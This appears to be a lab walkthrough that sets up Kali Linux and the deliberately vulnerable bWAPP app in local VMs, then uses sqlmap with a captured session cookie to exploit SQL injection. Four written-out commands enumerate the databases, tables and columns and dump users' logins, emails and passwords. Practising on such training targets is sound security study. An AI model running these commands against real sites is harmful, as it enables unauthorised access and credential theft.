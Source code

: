 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

   ![](/assets/virtualbox-2-vm)

2. launch bWAP and make sure it is running;

   ![](/assets/bWAPP-from-vm)

3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/assets/acces-bWAPP-from-kali)

  4. Go to SQL Injection \(GET/Search\)

![](/assets/sql-get)



  5. key in a search string; copy of the resulted URL;![](/assets/search-box)

  6. Find out the cookie for the site;

![](/assets/get-cookie-pref)

![](/assets/get-cookie-id)



**Now, it is show time; launch SQLmap from terminal;**



**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/assets/s1)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/assets/s2)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/assets/s3)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/assets/s4)

